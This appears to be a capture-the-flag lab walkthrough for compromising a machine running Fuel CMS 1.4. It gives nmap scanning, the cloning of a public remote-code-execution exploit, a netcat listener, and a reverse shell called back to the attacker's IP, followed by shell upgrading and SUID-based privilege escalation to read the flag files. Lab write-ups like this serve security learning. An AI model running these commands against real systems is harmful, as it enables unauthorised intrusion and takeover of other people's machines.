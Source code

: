 
---

### ✅ Step 1: Scan Target with Nmap

We start by scanning the target machine for open ports using **nmap**:

```bash
sudo nmap -v -A -Pn 0.0.0.0
```

**Result:**  
Port **80** is open, running **Apache 2.4.18 (Ubuntu)**:

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

---

### ✅ Step 2: Identify Web Application

Accessing the web page on port **80** reveals it’s running **Fuel CMS v1.4**.

We search for public exploits on **Exploit-DB** or **GitHub**. In this case, I found an exploit on GitHub:

```bash
git clone https://github.com/ice-wzl/Fuel-1.4.1-RCE-Updated.git
```

---

### ✅ Step 3: Exploit Fuel CMS (Reverse Shell)

1. Start a netcat listener on port **4444**:

```bash
nc -nlvp 4444
```

2. Run the exploit with your **local IP address** and desired **port**:

```bash
python Fuel-Updated.py http://0.0.0.0/ 1.1.1.1 4444
```

- Replace `0.0.0.0` with the **target URL/IP**
- Replace `1.1.1.1` with **your machine's IP address**

> 🎉 Exploit succeeded! You now have a reverse shell.

---

### ✅ Step 4: Upgrade Shell

To improve the shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

---

### ✅ Step 5: Privilege Escalation

**Note:** `sudo -l` didn’t work for some reason.  
Instead, I searched for **SUID** binaries to find privilege escalation paths:

```bash
find /bin -perm -4000 2>/dev/null
```

I found the `su` binary can be used:

```bash
/bin/su -c 'cat /home/user.txt'
/bin/su -c 'cat /root/root.txt'
```

---

### ✅ Final Result:

Successfully captured **both flags**:

- `user.txt`
- `root.txt`

---